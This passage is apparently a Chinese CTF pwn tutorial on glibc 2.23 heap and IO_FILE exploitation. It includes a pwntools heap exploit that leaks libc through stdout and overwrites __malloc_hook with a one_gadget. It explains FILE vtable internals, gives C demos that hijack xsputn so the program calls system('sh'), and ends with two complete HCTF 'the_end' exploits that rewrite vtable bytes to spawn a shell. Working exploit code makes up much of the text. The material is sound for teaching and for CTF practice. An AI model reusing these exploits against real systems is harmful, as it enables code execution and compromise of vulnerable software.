
context.binary = elf
context.os = 'linux'
IsGDB = ''
TryMode = True

io = None

if 'remote' in sys.argv or 'REMOTE' in sys.argv:
    print('<Host Port> or <nc Host Port>')
    Remote_Setting = input().split()
    if 'nc' in Remote_Setting:
        Remote_Setting.remove('nc')
    for _ in range(0,len(Remote_Setting)):
        item = Remote_Setting[0]
        Remote_Setting.remove(item)
        if ':' in item:
            Remote_Setting.extend(item.split(':'))
        else:
            Remote_Setting.append(item)
    if ':' in Remote_Setting:
        Remote_Setting.remove(':')
    while '' in Remote_Setting:
        Remote_Setting.remove('')
    host, port = Remote_Setting
    port = int(port)  
    
    GDB = lambda: 1 == 1
    if not TryMode:
        io = remote(host, port)
else:
    if not TryMode:
        io = process(file)
    print("Debug Mode? Y/N (yes/no)")
    IsDebug = input().lower()
    print("Start GDB? Y/N (yes/no)")
    IsGDB = input().lower()
    if IsDebug == 'yes' or IsDebug == 'y':
        context.log_level = 'debug'
        
    if IsGDB == 'yes' or IsGDB == 'y':
        context.terminal = ['tmux', 'split-window', '-v', '-t', '0']
        tty_0 = subprocess.check_output([
            'tmux', 'display-message', '-p', '#{pane_tty}'
        ]).decode().strip()
        tty_1, pane_id_1 = subprocess.check_output([
            'tmux', 'split-window', '-h', '-P', '-F', '#{pane_tty} #{pane_id}', 'cat -'
        ]).decode().strip().split()  
        
        gdb_script = f"""
        set context-output {tty_1}
        define hook-quit
            shell tmux kill-pane -t {pane_id_1}
        end
        
        rename_import ./.rename
        """

        print(gdb_script)
        GDB = lambda: gdb.attach(io, gdb_script)
    else:
        GDB = lambda: 1 == 1


if elf.arch == 'i386':
    B = 4
    unpk = lambda unpack : u32(unpack.ljust(B,b'\x00'))
    dopk = lambda dopack : p32(dopack)
elif elf.arch == 'amd64':
    B = 8
    unpk = lambda unpack : u64(unpack.ljust(B,b'\x00'))
    dopk = lambda dopack : p64(dopack)
else:
    B = int(input("Input Address Byte: "))

success(f"Arch = {elf.arch} || B = {B}")

# 函数绑定
int_to_byte = lambda numbers=0 : str(numbers).encode('utf-8')

sla = lambda rcv, snd: io.sendlineafter(rcv, snd)
sl  = lambda snd: io.sendline(snd)
sa  = lambda rcv, snd: io.sendafter(rcv, snd)
rcv = lambda num, t=Timeout.default: io.recv(num, t)
rcu = lambda stop, drop=False, t=Timeout.default: io.recvuntil(stop, drop, t)
SHELL = lambda: io.interactive()
#=====================================================  


def choice(i):
    sla(b'4:delete', int_to_byte(i))

def add(index,size,content):
    choice(1)
    sla(b'index:', int_to_byte(index))
    sla(b'size:', int_to_byte(size))
    sa(b'content:', content)

def edit(index,content):
    choice(3)
    sla(b'index:', int_to_byte(index))
    sa(b'content:', content)

def delete(index):
    choice(4)
    sla(b'index:', int_to_byte(index))

def pwn():   
    add(0, 0x58, b'A'*0x58)
    add(1, 0x100, b'AAAA')
    add(2, 0x68, b'BBBB')
    add(3, 0x10, b'CCCC')
    add(4, 0x10, b'DDDD')

    edit(0,b'A'*0x58 +b'\xa1\x01')#修改1堆块大小为 0x1a1
    delete(2)
    delete(1)
    
    add(5, 0x108, b'A'*0x108)
    add(6, 0x88, b'\xdd\x45') #申请的unsortbin chunk大小必须<=0xd8
    edit(5, b'A'*0x108 +b'\x71') #将size改回，否则由于检查机制会报错
    add(7, 0x68, b'AAAA')
    
    payload = (
        b'A'*0x33
        +dopk(0xfbad1800)
        +dopk(0)
        +dopk(0)
        +dopk(0)
        +b'\x00'
    )
    #算偏移的时候不要忘了头部字段
    add(8, 0x68, payload) 
    
    leak_addr = unpk(rcu(b'\x7f')[-6:]) #这里是16/1的概率

    libc_base = leak_addr -libc.symbols['_IO_2_1_stderr_'] -192
    __malloc_hook = libc_base +libc.symbols['__malloc_hook']
    realloc_addr = libc_base +libc.symbols['realloc']
    system_addr = libc_base +libc.symbols['system']
    one_gadget = libc_base +0xf0897
    fake_chunk = __malloc_hook-0x23
    
    # GDB()
    success(f"one_gadget: {hex(one_gadget)}")
    success(f"fake_chunk: {hex(fake_chunk)}")
    success(f"leak_addr: {hex(leak_addr)}")
    success(f"libc_base: {hex(libc_base)}")
    success(f"__malloc_hook: {hex(__malloc_hook)}")
    success(f"realloc_addr: {hex(realloc_addr)}")
    success(f"system_addr: {hex(system_addr)}")
    # SHELL()
    
    
    add(9, 0x68, b'AAAA')
    delete(9)
    delete(7)
    
    edit(6, dopk(fake_chunk)[:6]) #修改malloc_hook的前6字节为fake_chunk
    
    add(10, 0x68, b'AAAA')
    add(11, 0x68, b'A'*0x13 + dopk(one_gadget))
    

    choice(1)
    sla(b'index:', b'12')
    sla(b'size:', b'12')

    #GDB()
    SHELL()
    
while True:
    try:
        io = process(file)
        pwn()
    except:
        io.close()

# io = process(file)
# pwn()
```

接下来是重磅环节 XD

---

# 伪造vtable劫持程序流

本来是不想讲这一部分的，但是最后还是想着最好还是讲一下

在开始之前，我们先来了解一下vtable的结构

```c
    struct _IO_jump_t
    {
        JUMP_FIELD(size_t, __dummy);               // 占位符，没有实际功能
        JUMP_FIELD(size_t, __dummy2);              // 占位符，没有实际功能
        JUMP_FIELD(_IO_finish_t, __finish);        // 完成操作的函数指针
        JUMP_FIELD(_IO_overflow_t, __overflow);    // 写缓冲区溢出处理函数指针
        JUMP_FIELD(_IO_underflow_t, __underflow);  // 读缓冲区欠载处理函数指针
        JUMP_FIELD(_IO_underflow_t, __uflow);      // 读缓冲区欠载处理函数指针
        JUMP_FIELD(_IO_pbackfail_t, __pbackfail);  // 处理推回字符的函数指针
        JUMP_FIELD(_IO_xsputn_t, __xsputn);        // 写入多个字符的函数指针
        JUMP_FIELD(_IO_xsgetn_t, __xsgetn);        // 读取多个字符的函数指针
        JUMP_FIELD(_IO_seekoff_t, __seekoff);      // 按偏移量移动文件指针的函数指针
        JUMP_FIELD(_IO_seekpos_t, __seekpos);      // 移动文件指针到指定位置的函数指针
        JUMP_FIELD(_IO_setbuf_t, __setbuf);        // 设置缓冲区的函数指针
        JUMP_FIELD(_IO_sync_t, __sync);            // 同步文件流的函数指针
        JUMP_FIELD(_IO_doallocate_t, __doallocate);// 分配缓冲区的函数指针
        JUMP_FIELD(_IO_read_t, __read);            // 读取数据的函数指针
        JUMP_FIELD(_IO_write_t, __write);          // 写入数据的函数指针
        JUMP_FIELD(_IO_seek_t, __seek);            // 移动文件指针的函数指针
        JUMP_FIELD(_IO_close_t, __close);          // 关闭文件流的函数指针
        JUMP_FIELD(_IO_stat_t, __stat);            // 获取文件状态的函数指针
        JUMP_FIELD(_IO_showmanyc_t, __showmanyc);  // 显示可用字符数的函数指针
        JUMP_FIELD(_IO_imbue_t, __imbue);          // 设置区域设置信息的函数指针
    };
```

```c
void * funcs[] = {
   1 NULL, // "extra word"
   2 NULL, // DUMMY
   3 exit, // finish
   4 NULL, // overflow
   5 NULL, // underflow
   6 NULL, // uflow
   7 NULL, // pbackfail
   
   8 NULL, // xsputn  #printf
   9 NULL, // xsgetn
   10 NULL, // seekoff
   11 NULL, // seekpos
   12 NULL, // setbuf
   13 NULL, // sync
   14 NULL, // doallocate
   15 NULL, // read
   16 NULL, // write
   17 NULL, // seek
   18 pwn,  // close
   19 NULL, // stat
   20 NULL, // showmanyc
   21 NULL, // imbue
};
```

如上，这里面几个修改之后有用的一眼就能看出来

‍

---

这个技术的中心思想就是对 _IO_FILE_plus 中的 vtable进行伪造(就像修改got表一样)

通过修改vtable，使其指向我们所控制的内存，并再自己控制的内存中布置好函数指针，从而达到劫持程序流的效果

因而，对vtable的劫持分两种

1. 直接改写vtable中的函数指针(通过任意地址写实现)
2. 覆盖vtable的指针指向我们的内存，随后在其中布置函数指针

‍

> 这里，就需要补充一些调用上面的知识了
>
>> 这里讲解了IO库函数实际运作的原理及调用
>>
>> # fread
>>
>> 其函数原型如下
>>
>> ```c
>> size_t fread ( void *buffer, size_t size, size_t count, FILE *stream) ;
>> ```
>>
>> - buffer 缓冲区地址
>> - size 读入的大小
>> - count 读入的次数
>> - stream 目标文件流
>> - return -> 读入读取缓冲区的 实际"count"
>>
>> 其代码位于 `/libio/iofread.c`​ ，函数名为 `_IO_fread`​，但真正功能实现位于子函数 `_IO_sgetn`
>>
>> ```c
>> _IO_size_t
>> _IO_fread (buf, size, count, fp)
>>      void *buf;
>>      _IO_size_t size;
>>      _IO_size_t count;
>>      _IO_FILE *fp;
>> {
>>   ...
>>   bytes_read = _IO_sgetn (fp, (char *) buf, bytes_requested);
>>   ...
>> }
>> ```
>>
>>  **_IO_sgetn会调用 _IO_XSGETN 函数，而 _IO_XSGETN 实际是 _IO_FILE_plus 中 vtable 中的函数指针**
>>
>> 在调用这个函数之前，会首先取出vtable中的函数指针再调用
>>
>> ```c
>> _IO_size_t
>> _IO_sgetn (fp, data, n)
>>      _IO_FILE *fp;
>>      void *data;
>>      _IO_size_t n;
>> {
>>   return _IO_XSGETN (fp, data, n);
>> }
>>
>> ```
>>
>> 在默认情况下，其是指向 _IO_file_xsgetn 函数的
>>
>> ```c
>>   if (fp->_IO_buf_base
>>           && want < (size_t) (fp->_IO_buf_end - fp->_IO_buf_base))
>>         {
>>           if (__underflow (fp) == EOF)
>>         break;
>>
>>           continue;
>>         }
>>
>> ```
>>
>> ---
>>
>> # fwrite
>>
>> 其函数原型如下
>>
>> ```c
>> size_t fwrite(const void* buffer, size_t size, size_t count, FILE* stream);
>> ```
>>
>> 与fread基本一致
>>
>> - buffer: 是一个指针，对 fwrite 来说，是要写入数据的地址;
>> - size: 要写入内容的单字节数;
>> - count: 要进行写入 size 字节的数据项的个数;
>> - stream: 目标文件指针;
>> - 返回值：实际写入的数据项个数 count。
>>
>> 其代码位于 `/libio/iofwrite.c`，函数名 _IO_fwrite
>>
>> 其主要是调用了 _IO_sputn 来实现其功能
>>
>> 与前面一致，_IO_sputn 会调用 _IO_XSPUTN
>>
>> 与前面一致，_IO_XSPUTN也是位于vtable中的函数指针，会在调用前先在vtable中取出再调用
>>
>> ```c
>> written = _IO_sputn (fp, (const char *) buf, request);
>> ```
>>
>> _IO_XSPUTN 对应的默认函数为 _IO_new_file_xsputn，其会调用同样位于 vtable中的 _IO_OVERFLOW
>>
>> ```c
>>  /* Next flush the (full) buffer. */
>>       if (_IO_OVERFLOW (f, EOF) == EOF)
>> ```
>>
>> _IO_OVERFLOW对应的默认函数为 _IO_new_file_overflow
>>
>> ```c
>> if (ch == EOF)
>>     return _IO_do_write (f, f->_IO_write_base,
>>              f->_IO_write_ptr - f->_IO_write_base);
>>   if (f->_IO_write_ptr == f->_IO_buf_end ) /* Buffer is really full */
>>     if (_IO_do_flush (f) == EOF)
>>       return EOF;
>> ```
>>
>> 在其内部最终会调用系统的write接口
>>
>> ---
>>
>> # fopen
>>
>> 其函数原型如下
>>
>> ```c
>> ‍FILE *fopen(char *filename, *type);
>> ```
>>
>> - filename 目标文件路径
>> - type 打开类型(通常为 const char*，存储一个或多个字符)
>> - return-> 一个文件指针
>>
>> fopen函数主要进行几个操作
>>
>> 1. 使用 malloc 分配 FILE 结构
>> 2. 设置 FILE 结构的 vtable
>> 3. 初始化新分配的FILE结构
>> 4. 将初始化的FILE结构链入链表中
>> 5. 系统调用打开文件
>>
>> 这里就不展开讲了，想要了解的可以自己去了解一下
>>
>> ---
>>
>> # fclose
>>
>> 函数声明如下
>>
>> ```c
>> int fclose(FILE *stream)
>> ```
>>
>> 关闭一个文件流，其会将缓冲区剩余的数据输出到磁盘文件，并释放文件指针及有关缓冲区
>>
>> 其首先会调用 _IO_unlink_it ，让指定的 FILE 从链表中脱出
>>
>> ```c
>> if (fp->_IO_file_flags & _IO_IS_FILEBUF)
>>     _IO_un_link ((struct _IO_FILE_plus *) fp);
>>
>> ```
>>
>> 之后调用 _IO_file_close_it ，它会调用系统调用关闭文件
>>
>> ```c
>> if (fp->_IO_file_flags & _IO_IS_FILEBUF)
>>     status = _IO_file_close_it (fp);
>> ```
>>
>> 最后会调用 _IO_FINISH(在vtable中)，对应的是 _IO_file_finish函数，其会调用free函数释放前分配的 FILE结构
>>
>> ```c
>> _IO_FINISH (fp);
>> ```
>>
>> ---
>>
>> # printf/puts
>>
>> 在 printf 的参数是以'\\n'结束的纯字符串时，printf 会被优化为 puts 函数并去除换行符。
>>
>> puts的源码实现函数为 _IO_puts，其流程参考friwte (_IO_sputn)
>>
>> printf的调用栈如下，同样会调用到_IO_sputn
>>
>> ```c
>> vfprintf+11
>> _IO_file_xsputn
>> _IO_file_overflow
>> funlockfile
>> _IO_file_write
>> write
>> ```
>>

---

## Demo

这里给两个demo(借用了ctf-wiki上面的)

```c
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_ptr;
    fp=fopen("123.txt","rw");
    vtable_ptr=*(long long*)((long long)fp+0xd8);     //get vtable
    memcopy(fp,"sh",3);
    vtable_ptr[7]=system_ptr; //xsputn
    fwrite("hi",2,1,fp); //system("sh")
}
```

我们能够根据vtable在_IO_FILE_plus中的偏移得到vtable的地址，从而直接修改到它

我们还需要清楚的知道我们想要劫持的IO函数会调用 vtable中的哪个函数。

我们在刚刚的调用中也提到了，fwrite是会调用到_IO_XSPUTN的，所以这里我们只需要将xsputn修改了，就相当于修改了fwrite里面的调用

而根据前面提到的，fp是第一个参数，我们需要将其修改为 sh，或者是 /bin/sh ，这样才能组装成 system("sh")

fp -> ptr -> addr -> value

在libc2.23下，位于 libc数据段的 vtable不再能修改了，但是我们仍有办法能够 通过可控内存伪造vtable来实现控制程序流

```c
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_addr,*fake_vtable;

    fp=fopen("123.txt","rw");
    fake_vtable=malloc(0x40);

    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset

    vtable_addr[0]=(long long)fake_vtable;

    memcpy(fp,"sh",3);

    fake_vtable[7]=system_ptr; //xsputn

    fwrite("hi",2,1,fp);
}
```

我们只需要从直接修改vtable中的值，变为修改指向vtable的地址即可破解

我们将指向vtable的指针修改为指向fake_vtable，这个fake_vtable我们可以自己伪造，这样我们就能够想之前一样控制程序流了

---

# HCTF the_end





整个题目就这些东西

我们发现其把 1,2都关了，就很坏

但是还好，我们这里打的是IO_FILE。

简单的梳理一下

1. 除canary，保护全开断绝你修改got表的念想
2. 拥有libc基地址
3. 能够任意地址写五个字节

> 这里插一句嘴，之前没有提到exit函数的调用
>
> 对exit函数的调用，会触发从_IO_list_all开始的遍历，直至遍历到_IO_2_1_stdout_结束，随后调用其中的vtable中的`_setbuf`函数
>
> 其中，还有一个函数调用链值得分析
>
> **exit-&gt;__run_exit_handlers-&gt;_IO_cleanup-&gt;_IO_flush_all_lockp**
>
> 最后 _IO_flush_all_lockp会调用 _IO_OVERFLOW
>
> ```python
> int _IO_flush_all_lockp(int do_lock)
> {
>             
> 	...
>     last_stamp = _IO_list_all_stamp;
>     fp = (_IO_FILE *)_IO_list_all;
>     while (fp != NULL)
>     {
>             
>         run_fp = fp;
>         if (do_lock)
>             _IO_flockfile(fp);
>
>         if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
> #if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
>              || (_IO_vtable_offset(fp) == 0 && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base))
> #endif
>                  ) &&
>             _IO_OVERFLOW(fp, EOF) == EOF)
>             ...
>  }
> ```

那么，我们的思路也很清晰了

## 第一种解法

1. 首先修改两个字节，在当前的`vtable`​旁伪造一个`fake_vtable`
2. 随后用三个字节修改`fake_vtable`​中的`_setbuf`​的内容修改为`onegadget`

我们`fake_vtable`需要满足这样的条件

1. ​`fake_vtable_addr`​ +0x58 = `libc_base`​ +`off_set_3`
2. 0x58是根据下表查到的_setbuf函数在vtable中的偏移

   ```c
   void * funcs[] = {
   1 NULL, // "extra word"
   2 NULL, // DUMMY
   3 exit, // finish
   4 NULL, // overflow
   5 NULL, // underflow
   6 NULL, // uflow
   7 NULL, // pbackfail
   8 NULL, // xsputn #printf
   9 NULL, // xsgetn
   10 NULL, // seekoff
   11 NULL, // seekpos
   12 NULL, // setbuf
   13 NULL, // sync
   14 NULL, // doallocate
   15 NULL, // read
   16 NULL, // write
   17 NULL, // seek
   18 pwn, // close
   19 NULL, // stat
   20 NULL, // showmanyc
   21 NULL, // imbue
   };
   ```

exp如下

```python
from pwn import *
context.log_level="debug"

libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
p = process('the_end')


sleep_ad = p.recvuntil(', good luck',drop=True).split(' ')[-1]

libc_base = long(sleep_ad,16) - libc.symbols['sleep']
one_gadget = libc_base + 0xf02b0
vtables =     libc_base + 0x3C56F8

fake_vtable = libc_base + 0x3c5588
target_addr = libc_base + 0x3c55e0

print 'libc_base: ',hex(libc_base)
print 'one_gadget:',hex(one_gadget)
print 'exit_addr:',hex(libc_base + libc.symbols['exit'])

# gdb.attach(p)

for i in range(2):
    p.send(p64(vtables+i))
    p.send(p64(fake_vtable)[i])


for i in range(3):
    p.send(p64(target_addr+i))
    p.send(p64(one_gadget)[i])

p.sendline("exec /bin/sh 1>&0")

p.interactive()

```

# 第二种解法

我们利用_IO_OVERFLOW这一条调用链

1. 修改 _IO_write_ptr的最后一个字节，实现

   **fp-&gt;_IO_write_ptr**  **&gt;**  **fp-&gt;_IO_write_base**
2. 修改 vtable 的倒数第二个字节， 实现

   伪造的_IO_OVERFLOW 存在libc相关地址
3. 修改 伪造的 _IO_OVERFLOW 后三个字节为 one_gadget

   最终执行 one_gadget 获得shell

exp如下

```python
from pwn import *

context.log_level="debug"
libc=ELF("./rpath/libc-2.23.so")
io = process('./the_end')

sleep_ad = io.recvuntil(b', good luck',drop=True).split(b' ')[-1]
libc_base = int(sleep_ad,16) - libc.symbols['sleep']

def write_value(addr,value):
    io.send(p64(addr))
    io.send(p8(value))

one_gadget = 0xf02a4 + libc_base

print ("rce", hex(one_gadget))
stdout = libc_base + libc.symbols['_IO_2_1_stdout_']
jumps = libc_base + libc.symbols['_IO_file_jumps']


addr1 = stdout + 5 * 8
value1 = 0xff
write_value(addr1, value1)

addr2 = stdout + 0xd8 + 1
value2 = ((jumps + 0xe00) >> 8) & 0xff
write_value(addr2, value2)


addr3 = jumps + 0xe00 + 3 * 8
value3 = one_gadget & 0xff
write_value(addr3, value3)

addr4 = addr3 + 1
value4 = (one_gadget >> 8) & 0xff
write_value(addr4, value4)

addr5 = addr3 + 2
value5 = (one_gadget >> 16) & 0xff
write_value(addr5, value5)


io.sendline(b'cat flag 1>&0')
# io.sendline(b'exec /bin/sh 1>&0')
io.interactive()
```

‍
